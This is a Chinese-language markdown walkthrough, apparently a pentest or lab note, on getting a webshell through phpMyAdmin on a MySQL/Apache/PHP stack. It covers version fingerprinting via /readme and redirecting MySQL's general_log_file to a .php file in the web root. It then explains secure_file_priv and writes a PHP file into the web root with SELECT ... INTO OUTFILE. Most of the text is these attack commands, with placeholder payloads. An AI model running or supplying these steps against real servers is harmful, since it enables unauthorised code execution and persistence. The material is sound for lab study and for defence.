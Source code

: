 ## 信息收集

1.首页**Mysql + Apache + PHP** 

![image-20221017203536606](../Picture/image-20221017203536606.png)

2.访问**/readme** 得到对应phpmyadmin详细版本

![image-20221017203736577](../Picture/image-20221017203736577.png)

## 日志getshell

```mysql
// 检查日志参数
SHOW VARIABLES LIKE 'general%';
```

<img src="../Picture/image-20221017204714562.png" alt="image-20221017204714562" style="zoom:150%;" />

**开启状态 / 日志保存路径**

```mysql
SET  GLOBAL general_log =  "ON";
```

```mysql
//参考源目录补充shell目录 	目录双写
SET global general_log_file=’C:/phpStudy/PHPTutorial/WWW/testshell.php’;
```

```mysql
select maer~
```

![image-20221017211927531](../Picture/image-20221017211927531.png)

**getshell，之后恢复记录——持久化操作**



## 文件写入与导出

```mysql

SHOW GLOBAL VARIABLES LIKE '%secure%'
```

secure_file_priv配置介绍：

secure_file_priv 是用来限制 load dumpfile、into outfile、load_file() 函数在哪个目录下拥有上传或者读取文件的权限

当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权
当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，此时也无法提权
当 secure_file_priv 的值**==没有具体值==**时，表示不对 mysqld 的导入|导出做限制，此时可提权

**导出开关需要管理员权限。**

**假设值为空：**(双写\\)

```mysql
select 'maer' INTO OUTFILE 'D:\\phpStudy\\PHPTutorial\\WWW\\2.php'
```

路径：

```mysql
SHOW  VARIABLES  LIKE  '%dir%'
```